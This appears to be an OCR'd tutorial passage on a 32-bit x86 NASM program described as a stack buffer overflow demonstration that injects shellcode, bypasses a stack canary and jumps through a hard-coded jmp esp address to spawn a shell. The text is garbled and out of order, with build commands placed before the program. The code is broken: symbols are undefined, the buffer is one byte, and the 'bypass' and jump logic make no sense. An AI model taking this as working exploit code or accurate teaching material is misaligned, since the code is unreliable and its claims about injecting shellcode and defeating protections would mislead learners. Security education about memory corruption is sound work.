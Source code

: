 After inserting your shellcode, you can compile and link the program using the following commands:

```bash
nasm -f elf32 shellcode_injection.asm -o shellcode_injection.o
ld -m elf_i386 shellcode_injection.o -o shellcode_injection
```

After compiling and linking, you can run the program:

```bash
./shellcode_injection
```

The program will display the welcome message and then execute the injected shellcode, spawning a shell.

Let's create a simple assembly language program that demonstrates a basic stack-based buffer overflow vulnerability with shellcode injection and address randomization bypass. We'll also include stack canaries to detect the buffer overflow attempt. We'll write this program in x86 assembly language using NASM syntax. Here's the program:

```assembly
section .data
    buffer db 100          ; Buffer to hold user input
    welcome_msg db "Welcome to the stack buffer overflow demonstration!", 0
    newline db 10, 0
    jmp_esp dd 0x0804842d  ; Address of jmp esp instruction in the program
    stack_canary dd 0x12345678  ; Stack canary value

section .text
    global _start

_start:
    ; Display welcome message
    mov eax, 4             ; Syscall number for sys_write
    mov ebx, 1             ; File descriptor for stdout
    mov ecx, welcome_msg   ; Address of the welcome message
    call print_string      ; Call the subroutine to print the welcome message

    ; Display newline for formatting
    mov eax, 4             ; Syscall number for sys_write
    mov ebx, 1             ; File descriptor for stdout
    mov ecx, newline       ; Address of the newline character
    call print_string      ; Call the subroutine to print the newline

    ; Inject shellcode
    mov edi, buffer        ; Destination address (buffer)
    mov esi, shellcode     ; Source address (shellcode)
    mov ecx, shellcode_len ; Length of the shellcode
    rep movsb              ; Move the shellcode byte-by-byte into the buffer

    ; Bypass stack canary
    mov eax, [esp]         ; Load the stack canary value
    cmp eax, 0x12345678   ; Compare with the expected canary value
    jne invalid_input     ; If not equal, jump to invalid_input

    ; Jump to shellcode
    call jmp_esp           ; Call jmp esp instruction to jump to the buffer

invalid_input:
    ; Display error message for invalid input
    mov eax, 4             ; Syscall number for sys_write
    mov ebx, 1             ; File descriptor for stdout
    mov ecx, error_msg     ; Address of the error message
    call print_string      ; Call the subroutine to print the error message

    ; Exit the program
```